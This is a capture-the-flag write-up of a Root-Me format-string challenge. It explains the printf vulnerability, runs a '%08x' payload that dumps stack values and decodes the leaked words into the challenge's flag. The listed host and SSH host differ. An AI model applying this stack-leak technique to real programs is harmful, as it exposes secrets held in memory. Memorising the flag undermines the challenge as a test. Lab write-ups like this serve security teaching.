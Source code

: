 # ELF x86 - Format string bug basic 1
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-1
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge04.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch5@challenge02.root-me.org  
Username	app-systeme-ch5
Password	app-systeme-ch5
```

According to the provided source code, the program reads the **.passwd** file and prints a messsage given by the user (argv[1]).<br>
The _printf_ function prints an uncontrolled string, and therefore the program is vulnerable for format string attacks.<br>
Because the program reads the file into a local buffer, the flag should be in the stack. Therefore, there is no need for a shell, just printing the stack values using the vulnerable _printf_ function.<br><br>

First, let's verifiy that the program actually prints the stack values:
```sh
app-systeme-ch5@challenge02:~$ ./ch5 `python -c "print '%08x,'*14"`
00000020,0804b008,b7e562f3,00000000,08049ff4,00000002,bffffc14,bffffd32,0000002f,0804b008,39617044,28293664,6d617045,00000a64,
```

The end of the output looks suspicious. If we'll convert the last 4 words we should get "9apD()6dmapEd".<br>
And if we'll convert it to big-endian format (as it should be - the memory saves the bytes in little endian) then we should get the flag "Dpa9d6)(Epamd".
